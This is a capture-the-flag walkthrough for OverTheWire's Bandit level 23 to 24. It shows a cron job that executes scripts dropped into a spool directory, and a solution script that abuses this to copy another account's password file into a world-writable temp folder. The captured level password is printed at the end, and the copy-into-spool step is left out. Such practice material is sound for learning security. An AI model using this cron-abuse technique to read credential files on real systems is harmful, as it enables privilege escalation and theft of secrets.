 ## Bandit level 23-> level 24

## Level Goal
A program is running automatically at regular intervals from cron, the time-based job scheduler. Look in /etc/cron.d/ for the configuration and see what command is being executed.

NOTE: This level requires you to create your own first shell-script. This is a very big step and you should be proud of yourself when you beat this level!

NOTE 2: Keep in mind that your shell script is removed once executed, so you may want to keep a copy around…
```
bandit23@bandit:~$ ls -la /etc/cron.d
total 36
drwxr-xr-x  2 root root 4096 Jul 11  2020 .
drwxr-xr-x 87 root root 4096 May 14  2020 ..
-rw-r--r--  1 root root   62 May 14  2020 cronjob_bandit15_root
-rw-r--r--  1 root root   62 Jul 11  2020 cronjob_bandit17_root
-rw-r--r--  1 root root  120 May  7  2020 cronjob_bandit22
-rw-r--r--  1 root root  122 May  7  2020 cronjob_bandit23
-rw-r--r--  1 root root  120 May 14  2020 cronjob_bandit24
-rw-r--r--  1 root root   62 May 14  2020 cronjob_bandit25_root
-rw-r--r--  1 root root  102 Oct  7  2017 .placeholder
bandit23@bandit:~$ cat /etc/cron.d/cronjob_bandit24
@reboot bandit24 /usr/bin/cronjob_bandit24.sh &> /dev/null
* * * * * bandit24 /usr/bin/cronjob_bandit24.sh &> /dev/null
bandit23@bandit:~$ cat /usr/bin/cronjob_bandit24.sh
#!/bin/bash

myname=$(whoami)

cd /var/spool/$myname
echo "Executing and deleting all scripts in /var/spool/$myname:"
for i in * .*;
do
    if [ "$i" != "." -a "$i" != ".." ];
    then
        echo "Handling $i"
        owner="$(stat --format "%U" ./$i)"
        if [ "${owner}" = "bandit23" ]; then
            timeout -s 9 60 ./$i
        fi
        rm -f ./$i
    fi
done

bandit23@bandit:~$ mktemp -d
/tmp/tmp.ljEyl6kv1M
bandit23@bandit:~$ cd /tmp/tmp.ljEyl6kv1M
bandit23@bandit:/tmp/tmp.ljEyl6kv1M$ nano bandit24_pass.sh

#!/bin/bash
cat /etc/bandit_pass/bandit24 > /tmp/tmp.ljEyl6kv1M/password

bandit23@bandit:/tmp/tmp.ljEyl6kv1M$ chmod +rx bandit24_pass.sh 
bandit23@bandit:/tmp/tmp.ljEyl6kv1M$ chmod 777 /tmp/tmp.ljEyl6kv1M
bandit23@bandit:/tmp/tmp.ljEyl6kv1M$ touch password

bandit23@bandit:/tmp/tmp.ljEyl6kv1M$ cat password 
UoMYTrfrBFHyQXmg6gzctqAwOmw1IohZ #key to level 24
```
